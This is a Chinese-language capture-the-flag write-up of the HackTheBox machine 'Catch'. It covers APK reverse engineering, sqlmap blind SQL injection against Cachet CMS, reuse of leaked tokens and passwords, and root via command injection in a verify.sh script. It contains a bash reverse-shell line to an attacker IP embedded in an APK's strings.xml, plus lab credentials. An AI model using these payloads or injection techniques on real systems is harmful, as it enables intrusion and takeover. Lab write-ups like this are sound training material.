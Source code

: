 ```yaml
---
title: Catch
date: 2022-04-30 12:14:27
tags: HackThebox
categories: 逆向
---
```


# 前言

这是一台中等难度的靶机，靶机主要考察的是对安卓程序的逆向分析、SQL注入等知识。

# 解题思路

![image](https://image.3001.net/images/20220422/1650588362_6261faca7f826ac5b79fd.png!small)

<!--more-->

# 信息收集

目标主机开放了ssh、web、ppp、udnp等服务

![image.png](https://image.3001.net/images/20220417/1650168048_625b90f0be364d92a31af.png!small)

访问web页面时，发现存在一个APK软件，可以下载下来进行逆向分析。使用的工具是`dex2jar`和`jd-gui`，发现了一个新的域名

![image.png](https://image.3001.net/images/20220417/1650171126_625b9cf66636781305091.png!small)

<!--more-->

这边使用MobSF框架对这个APK软件进行分析，发现存在一个`lets_chat_token`值，这个值非常有用

```
"gitea_token" : "b87bfb6345ae72ed5ecdcee05bcb34c83806fbd0"
"lets_chat_token" : "NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ=="
"slack_token" : "xoxp-23984754863-2348975623103"
```

![image](https://image.3001.net/images/20220418/1650261395_625cfd937e7ca72bfe112.png!small)

回到信息收集时的8000端口，发现是一个`Cachet`的CMS框架

![image](https://image.3001.net/images/20220418/1650261932_625cffac24a26e9366615.png!small)

在搜索引擎上搜索发现，存在Nday的sql注入漏洞

![image](https://image.3001.net/images/20220418/1650261971_625cffd34461bbab2e63b.png!small)

# 漏洞利用

因为常规的post表单注入SQLMAP无法检测到注入点，因此需要使用盲注注入技巧，这个CMS框架的审计可以参考这篇文章[Cachet\_CMS代码审计](https://www.leavesongs.com/PENETRATION/cachet-from-laravel-sqli-to-bug-bounty.html)

```
sqlmap -u "http://status.catch.htb:8000/api/v1/components?name=1&1[0]=&1[1]=a&1[2]=&1[3]=or+%27a%27=%3F%20and%201=1)*+--+"
```

![image.png](https://image.3001.net/images/20220418/1650262210_625d00c2d82aac66290e8.png!small)

对`cachet`数据库进行注入

```
sqlmap -u "http://status.catch.htb:8000/api/v1/components?name=1&1[0]=&1[1]=a&1[2]=&1[3]=or+%27a%27=%3F%20and%201=1)*+--+" --dbs
```

![image.png](https://image.3001.net/images/20220418/1650275091_625d3313412816336dd7d.png!small)

对users表进行注入

```
sqlmap -u "http://status.catch.htb:8000/api/v1/components?name=1&1[0]=&1[1]=a&1[2]=&1[3]=or+%27a%27=%3F%20and%201=1)*+--+" -D cachet --tables
```

![image.png](https://image.3001.net/images/20220418/1650275161_625d33596d701e7390f45.png!small)

对users表进行字段值注入

```
sqlmap -u "http://status.catch.htb:8000/api/v1/components?name=1&1[0]=&1[1]=a&1[2]=&1[3]=or+%27a%27=%3F%20and%201=1)*+--+" -D cachet -T users --columns
```

![image.png](https://image.3001.net/images/20220419/1650331261_625e0e7d2796d82f85294.png!small)

继续注入发现了对应用户的账户名和哈希值，但是是使用了Blowfish加密的，不能解密成功

![image](https://image.3001.net/images/20220420/1650416115_625f59f3070f104ec0ee4.png!small)

没有思路了，尝试fuzz一下路径，发现了两个重定向路径

```
ffuf -c -u "http://status.catch.htb:5000/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

![image.png](https://image.3001.net/images/20220420/1650419771_625f683b8cf6937d0302d.png!small)

使用上面获得了一个token值，可以分别对这些401目录进行网络包请求，`Authorization: bearer`字段是JWT的schema头定义

```
curl -H "Authorization: bearer NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ==" -i   http://10.10.11.150:5000/rooms
```

可以看到，获取到了很多对应的JSON值信息

![image.png](https://image.3001.net/images/20220422/1650599471_6262262fd9f96498e73e8.png!small)

带着请求头信息，去继续模糊web路径

```
ffuf -c -u "http://status.catch.htb:5000/rooms/61b86b28d984e2451036eb17/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -H "Authorization: bearer NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ=="
```

![image.png](https://image.3001.net/images/20220420/1650420792_625f6c386a8ed4e3e9e1f.png!small)

```
curl -H "Authorization: bearer NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ==" -i   http://status.catch.htb:5000/rooms/61b86b28d984e2451036eb17/messages
```

得到了john的用户名和密码`john:E}V!mywu_69T4C}W`

![image.png](https://image.3001.net/images/20220422/1650599421_626225fd843d2a74868a1.png!small)

上传事件时要捕获一个数据包，上传路径和上传参数对应之后发送，可以获取到一个shell终端

![image.png](https://image.3001.net/images/20220420/1650435449_625fa5797a7aec9a4f421.png!small)

初步判断目前在docker容器内，想要进一步提权可能需要进行逃逸操作

![image.png](https://image.3001.net/images/20220420/1650435637_625fa635ba596af60de83.png!small)

# 提权

## www-data提权will

查看.env文件发现存在了数据库名和密码`s2#4Fg0_%3!`

![image.png](https://image.3001.net/images/20220420/1650437095_625fabe7c6383ffd81631.png!small)

成功登录will用户

![image.png](https://image.3001.net/images/20220420/1650437206_625fac5609425282f274a.png!small)

## will提权到root

导入linpeas.sh脚本时，发现了一个存在漏洞的脚本`verify.sh`，这个脚本中存在一个命令注入点。可以通过控制`APP_NAME`的值进行命令注入

![image.png](https://image.3001.net/images/20220420/1650439376_625fb4d0281496cd9156f.png!small)

可以先使用`apktool`工具对apk文件进行源码还原，然后找到`/res/values/strings.xml`文件，并将生成的payload进行替换

```
echo '/bin/bash \-i \>& /dev/tcp/10\.10\.14\.5/4444 0\>&1' \| base64
```

![image](https://image.3001.net/images/20220421/1650534365_626127dd1bfc35c05e192.png!small)

然后使用新的apktool文件生成一个新的apk文件，因为要成功利用必须使用新的安卓文件进行命令执行

```
sudo java -jar apktool\_2.6.1.jar b -f -d catchv1.0 -o catchv2.0.apk
```

![image](https://image.3001.net/images/20220421/1650534437_6261282506ec27e48b3f0.png!small)

并对这个新的apk文件生成一个新的签名

```
keytool -genkey -v -keystore my-release-key.keystore -alias alias\_name -keyalg RSA -keysize 2048 -validity 10000
```

![image](https://image.3001.net/images/20220421/1650534510_6261286ecaa31ca132673.png!small)

最后将新的apk文件下载并上传到`apk_bin`目录上，开启监听获取root用户的权限

![image](https://image.3001.net/images/20220421/1650534624_626128e02e640c2f39419.png!small)

![image](https://image.3001.net/images/20220421/1650534609_626128d1a8c6d981c18a4.png!small)
